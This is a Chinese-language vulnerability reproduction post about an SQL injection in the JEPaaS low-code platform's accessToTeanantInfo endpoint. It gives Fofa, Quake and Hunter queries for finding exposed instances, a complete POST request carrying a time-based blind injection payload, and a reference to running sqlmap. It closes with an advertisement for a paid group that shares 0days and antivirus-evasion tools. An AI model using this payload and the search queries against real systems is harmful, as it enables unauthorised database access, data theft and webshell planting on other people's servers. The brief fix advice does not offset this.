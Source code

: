 #  【漏洞复现】JEPaaS 低代码平台 accessToTeanantInfo SQL注入漏洞 | 附poc   
原创 xiaocaiji  网安鲲为帝   2024-06-01 19:38  
  
**0x00****免责声明**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
本  
文  
仅  
用  
于  
技  
术  
讨  
论  
与  
学  
习  
，  
利  
用  
此  
文  
所  
提  
供  
的  
信  
息  
而  
造  
成  
的  
任  
何  
直  
接  
或  
者  
间  
接  
的  
后  
果  
及  
损  
失  
，  
均  
由  
使  
用  
者  
本  
人  
负  
责  
，  
文  
章  
作  
者  
及  
本  
公  
众  
号  
团  
队  
不  
为  
此  
承  
担  
任  
何  
责  
任  
。  
  
  
**0x01 漏洞描述**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
JEPaaS 低代码平台 accessToTeanantInfo SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等  
。  
  
  
**0x02 空间测绘**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
测  
绘  
语  
法：  
```
Fofa：icon_hash="-999810473"
quake：favicon: "cebfb3e5342abd7b01618a0cfbbe0377"
hunter：web.icon="cebfb3e5342abd7b01618a0cfbbe0377"
```  
  
  
****  
**0x03 漏洞复现**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
登录界面如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEJmLpYrV0MSwhGCYCUuxMv1EFoyOtL6rniaAyOTa6FdIfIib1U2w0nxzbTjRdk1dHcbSe9fUCzgic3VA/640?wx_fmt=other&from=appmsg "")  
  
1.SQL注入点POI数据包如下：  
```
POST /rbac/im/accessToTeanantInfo HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
internalRequestKey: schedule_898901212
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded

tenantId=1' AND (SELECT 2805 FROM (SELECT(SLEEP(5)))moYz)-- sBPi
```  
  
  
2.SQLMap跑注入  
：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEJmLpYrV0MSwhGCYCUuxMv1lxI4WQOBzgPl2hDVOxicInbicsSQHL850oZMoTtxDM7peG4NzicKoCAXA/640?wx_fmt=other&from=appmsg "")  
  
  
**0x04 修复意见**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
1、请联系厂商进行修复。   
  
2、如非必要，禁止公网访问该系统。  
  
3、设置白名单访问。  
  
  
**0x05 圈子进入**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
主要致力于打造全网最强免杀技术工具，分享0day、免杀、渗透等网络安全技术，师傅们要进抓紧哦！后续价格只增不减，错过机会难再遇哦！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEJmLpYrV0MSwhGCYCUuxMv1wu8nG73by5UgiaJY6d69njTC9zZSqbHL4FmZ5Y2THFhfa72jgtcjpog/640?wx_fmt=jpeg&from=appmsg "")  
  
  
**0x06 欢迎进群交流**  
  
!  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/1MLz0YkS76HN2mDzsc3eKehjJJTibD6cvzwcAQjFRKJibj2hFeFx9xqPxeAVNLIWWM7ia8XD9YUsUYyFLonA46ewoicJrmJO2oNx/640?wx_fmt=svg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
添加微信进群：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/uIXF7K92VEJdfiaGbzW6sp0kFvhYC7ejuJuS6lWyHyUGg40F2QVic6goic34EbYceQ2WE4eyMZ8oxbswQkhzJLhNQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
